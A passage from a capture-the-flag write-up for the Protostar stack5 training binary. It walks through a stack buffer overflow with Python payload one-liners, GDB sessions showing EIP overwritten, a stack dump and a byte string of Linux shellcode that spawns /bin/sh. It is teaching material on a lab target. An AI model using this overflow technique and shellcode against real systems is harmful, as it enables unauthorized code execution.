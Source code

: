 ```
python -c 'print "A"*76 + "BBBB"' > /tmp/stack5
```

```
(gdb) r < /tmp/stack5
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/stack5 < /tmp/stack5

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Great!! Our payload from the previous challenge gave us control of EIP. So at this moment, we have 76 bytes of space that could hold shellcode (the A buffer), however, let's see if we can continue writing after our EIP overwrite to store shellcode there. We can check for this by attempting to add a number of C characters afterwards.

```
python -c 'print "A"*76 + "BBBB" + "C"*100' > /tmp/stack5
```

Running GDB with the above file as our input, we see the stack holds the following data:

```
(gdb) x/50wx $esp
0xbffffc00:	0xbffffc10	0xb7ec6165	0xbffffc18	0xb7eada75
0xbffffc10:	0x41414141	0x41414141	0x41414141	0x41414141 <--- Input starts here
0xbffffc20:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc50:	0x41414141	0x41414141	0x41414141	0x42424242 <--- EIP overwrite
0xbffffc60:	0x43434343	0x43434343	0x43434343	0x43434343 <--- Potential shellcode space
0xbffffc70:	0x43434343	0x43434343	0x43434343	0x43434343    
0xbffffc80:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffffc90:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffffca0:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffffcb0:	0x43434343	0x43434343	0x43434343	0x43434343
0xbffffcc0:	0x43434343	0xb7ff6200
```

To relate the above to our payload:

- We have our 76 "A" characters represented by "0x41", as our junk
- We have our 4 "B" characters, represented by "0x42424242", as our EIP
- We have our remaining chunk of "C" characters, represented by "0x43434343", indicating space for our custom shellcode

We now know we have a nice amount of space on the stack, as well as a means of getting to this shellcode. For this attack, I will be using the shellcode obtained from <a href="http://shell-storm.org/shellcode/files/shellcode-827.php">here</a>, which effectively just pops a new "/bin/sh" process. The shellcode is:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
